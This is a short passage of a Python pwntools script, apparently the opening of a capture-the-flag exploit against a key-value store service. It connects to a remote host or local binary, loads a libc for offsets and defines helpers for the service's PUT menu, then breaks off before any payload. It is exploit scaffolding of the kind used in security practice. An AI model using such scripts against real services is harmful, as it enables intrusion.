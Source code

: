 ```python



if len(sys.argv) > 2:

    DEBUG = 0

    HOST = sys.argv[1]

    PORT = int(sys.argv[2])



    p = remote(HOST, PORT)

else:

    DEBUG = 1

    if len(sys.argv) == 2:

        PATH = sys.argv[1]



    p = process(PATH)





libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # ubuntu 16.04



def cmd(command_num):

    p.recvuntil('command:')

    p.sendline(str(command_num))





def put(key, size, data):

    cmd('PUT')

    p.recvuntil('key:')

    p.sendline(key)



    p.recvuntil('size:')

    p.sendline(str(size))

    p.recvuntil('data:')

    if len(data) < size:

```